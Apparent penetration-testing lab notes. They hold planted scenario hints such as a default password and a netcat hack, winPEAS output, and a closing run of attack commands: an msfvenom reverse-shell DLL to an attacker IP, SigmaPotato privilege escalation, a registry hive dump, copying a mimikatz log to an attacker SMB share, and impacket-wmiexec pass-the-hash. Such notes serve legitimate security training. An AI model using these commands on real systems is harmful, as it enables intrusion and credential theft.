 ```yaml
---
IP_KALI: 192.168.45.155
---
```

Passwordless????? Zero trust????????
Fearless transparent nothing to hide. Check
microchip shortage - call DevOps/IT?
Get rental confirmation receipt from Handy
Where are provisioning scripts stored? Passwords should be hashed on them???
MS.17 010? MS 08-067? Phase out XP OT boxes within the year.
Board wants us to change all passwords every 10 days for security? Roll out by end of Q2
TODO: remove certutil.exe - being used by APTs (NGOs??)
15.20 for lunch, my split, burgr from intern jim - maybe payroll/hr ask them
who's responsible for Jenkins? ask Alex after holiday
IN PROGRESS: move all internal backup services to not run as SYSTEM
Default password for new resets will be WelcomeToWinter0121
Alex's password expired, but he's on holiday for the next 4 weeks. Password reset by IT to the default
PTO being phased out - HR being replaced with SaaS?
new directive: Security team is being outsourced end of Q3. Look on freelancer?
"In the midst of chaos, there is also opportunity." - Sun Tzu. look this up
remember to bring PDFs to the board meeting
security are mentioning domain administrator (??) compromise - look into it next week
Apparently they have SSH for Windows now? Remove netcat hack when ssh is working
Fall (autumn?), Winter, end of the year - Accounts???
Point by point refutation statements

```
←[1;36m╔══════════╣ ←[1;32mSearching executable files in non-default folders with write (equivalent) permissions (can be slow)←[0m                                                                                                                             File Permissions "C:\Users\alex\Desktop\winPEASany.exe": alex [AllAccess]                                                    File Permissions "C:\Users\alex\AppData\Local\Microsoft\OneDrive\OneDriveStandaloneUpdater.exe": alex [AllAccess]            File Permissions "C:\Users\alex\AppData\Local\Microsoft\OneDrive\OneDrive.exe": alex [AllAccess]                             File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\wt.exe": alex [AllAccess]                                File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\winget.exe": alex [AllAccess]                            File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\SnippingTool.exe": alex [AllAccess]                      File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\python3.exe": alex [AllAccess]                           File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\python.exe": alex [AllAccess]                            File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\pbrush.exe": alex [AllAccess]                            File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\notepad.exe": alex [AllAccess]                           File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\msteams_autostarter.exe": alex [AllAccess]               File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\msteamsupdate.exe": alex [AllAccess]                     File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\msteams.exe": alex [AllAccess]                           File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\mspaint.exe": alex [AllAccess]                           File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\MicrosoftEdge.exe": alex [AllAccess]                     File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\GameBarElevatedFT_Alias.exe": alex [AllAccess]           File Permissions "C:\Users\alex\AppData\Local\Microsoft\WindowsApps\MicrosoftTeams_8wekyb3d8bbwe\msteams_autostarter.exe": alex [AllAccess] 
```

msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.213 LPORT=443 -f dll -o EnterpriseServiceOptional.dll

copy SigmaPotato.exe C:\Users\enterpriseuser\SigmaPotato.exe

Set-LocalUser -Name $env:enterpriseuser -Password (Read-Host -AsSecureString "Enter new password:")

reg save hklm\system C:\Users\enterpriseuser\system

net use m:  \\192.168.45.213\test /USER:kali kali copy mimikatz.log m:\

192.168.45.213

net use m: \\192.168.45.213\test /user:kourosh kourosh copy mimikatz.log m:\

/usr/bin/impacket-wmiexec -hashes :aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 enterpriseadmin@192.168.164.222